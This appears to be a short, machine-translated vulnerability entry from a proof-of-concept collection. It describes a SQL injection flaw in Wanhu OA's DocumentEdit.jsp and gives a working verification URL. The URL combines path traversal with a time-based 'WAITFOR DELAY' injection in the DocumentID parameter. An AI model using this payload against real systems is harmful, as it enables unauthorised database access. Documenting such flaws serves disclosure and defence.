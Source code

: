 # Wanhu OA DocumentEdit.jsp SQL injection vulnerability

## Vulnerability Description

There is a SQL injection vulnerability in the OA DocumentEdit.jsp file in Wanhu. The attacker can inject SQL into the database by sending a special request package to obtain server-sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ten thousand households OA</span>

## Network surveying and mapping



## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220905141730301.png)

Verify POC

```html
/defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iSignatureHTML.jsp/DocumentEdit.jsp?DocumentID=1';WAITFOR%20DELAY%20'0:0:5'--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662358602569-71e26a34-726b-4d75-b683-225884ec7b4a.png)![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662358633067-36051816-df31-4886-b3cb-69fa17dd5872.png)